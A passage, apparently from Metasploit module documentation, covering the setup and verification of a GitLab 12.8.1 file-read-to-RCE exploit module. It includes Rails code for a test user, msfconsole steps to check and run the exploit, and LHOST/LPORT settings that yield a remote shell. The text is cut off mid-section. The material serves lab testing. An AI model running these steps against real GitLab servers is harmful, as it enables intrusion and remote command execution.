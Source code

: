 Create a normal user account:

```
user = User.new(
    username: 'test',
    name: 'test',
    email: 'test@example.com',
    password: 'password123',
    password_confirmation: 'password123',
    confirmation_token: nil,
    confirmed_at: Time.now,
    confirmation_sent_at: nil,
    failed_attempts: 0
)
user.save!
user.skip_confirmation!
```

Once finished, kill the running docker container with:

```
docker kill gitlab
```

## Verification Steps

Check:

1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set USERNAME test@example.com`
1. `set PASSWORD password123`
1. `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
```

Run:

1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set USERNAME test@example.com`
1. `set PASSWORD password123`
1. `set LPORT <port>`
1. `set LHOST <ip>`
1. `run`
1. You should get a shell.

Specifying a `SECRET_KEY_BASE` to avoid the arbitrary file read:
